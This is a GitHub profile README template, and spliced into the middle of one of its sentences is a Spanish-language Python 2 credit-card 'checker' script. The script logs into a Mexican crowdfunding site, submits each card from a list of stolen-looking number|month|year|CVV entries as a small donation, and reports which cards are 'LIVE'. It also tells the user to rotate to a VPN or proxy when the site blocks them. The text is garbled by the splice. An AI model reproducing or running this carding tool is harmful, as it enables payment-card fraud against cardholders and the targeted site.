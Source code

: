 - 👋 Hi, I’m @dazer901
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking t#usr/bin/python

#El autor original es Zack Dasti ( Chapuawe )
#El script tiene la licencia GNU Public License v3.0
#Cualquiera puede imitar/modificar este script mientras de creditos al autor

import mechanize
import sys

#cc = sys.argv[1]
#ano = sys.argv[2]
#mes = sys.argv[3]
#cvv = sys.argv[4]

try:
	lista = sys.argv[1]
	email = sys.argv[2]
	password = sys.argv[3]

	print "\n"
	print "                    	Checker Version 0.5.0 \n";

	print "	  88   88   .d8b.   NNNNNN  88       	88      88    88";
	print "	  88, ,88  d8' '8b    88    88       	88      88,  ,88 ";
	print "	  00ooo88  88ooo88    88    88       	88      00oooo88  ";
	print "	  88   88  88~~~88    88    88b      	88b     88    88  ";
	print "	  88   88  88   88  NNNNNN  88NNNN   	88NNNN  88    88  ";

	print "	  ======================================================\n\n";
	print "		     	Iniciando el Checker :D\n\n";

except:
	print "\n"
	print "                    	Checker Version 0.5.0 \n";

	print "	  88   88   .d8b.   NNNNNN  88       	88      88    88";
	print "	  88, ,88  d8' '8b    88    88       	88      88,  ,88 ";
	print "	  00ooo88  88ooo88    88    88       	88      00oooo88  ";
	print "	  88   88  88~~~88    88    88b      	88b     88    88  ";
	print "	  88   88  88   88  NNNNNN  88NNNN   	88NNNN  88    88  ";

	print "	  ======================================================\n\n";
	print "	    Uso : python checker.py (archivo.txt) (email fondeadora) (contrasena fondeadora)\n\n\n";

	exit()


br = mechanize.Browser()
response = br.open('https://fondeadora.mx/login.html')

br.select_form(nr=2)

try:
	br.form['user[email]'] = email
	br.form['user[password]'] = password
except:
	print "  Email o contrasena incorrectos"
	exit()

br.submit()

contador = 0
limite = 1

ccs = open(lista ,'r')

while contador <= limite :

	try:
		cc, mes, ano, cvv = ccs.next().rstrip("\n").split("|")

	except:
		print "  El Checker Ha Terminado :D Disfruta tus lives o dies :)"

	if (mes == "10"):
		pass
	else:
		mes = mes.stripe("0")

	try:
		response = br.open('https://fondeadora.mx/projects/animalpolitico/backers/new?reward=0&backing_amount=0.50&continue=Continuar')
		urlchecker = 'https://fondeadora.mx/projects/animalpolitico/backers/new?reward=0&backing_amount=0.50&continue=Continuar'
		urlpass = br.geturl()

	except:
		print "  Tu ip se ha usado muchas veces :/ y el servidor te ha bloquado \n  intenta utilizar un vpn o proxy"
		exit()
	try:
		br.select_form(nr=2)

		br.form['date[year]'] = [ano]
		br.form['date[month]'] = [mes]

		br.set_value('Zack Dasti', nr=3)
		br.set_value(cc, nr=2)
		br.set_value(cvv, nr=6)

	except:
		print "  Porfavor usa un vpn o contacta al creador con la \n  screenshot de los errores del checker_tester"
		exit()

	try:
		br.submit()

	except:
		print "  Tu ip se ha usado muchas veces :/ y el servidor te ha bloquado \n  intenta utilizar un vpn o proxy"
		exit()

	if (urlpass != urlchecker):
		print "  LIVE  " + cc + "\n"
		contador = contador + 1
	else :
		print "  DIE  " + cc + "\n"

	contador = contador + 1
	limite = limite + 1

exit()

#Saludos a todo el chat de administracion de chats de lhg 
#Saludos a el chat # 1 y el chat #5 de lhg
# Y por ultimo saludos a mi bb Andrew Gonzales :3 <3cdo collaborate on ...
- 📫 How to reach me ...

<!---
dazer901/dazer901 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
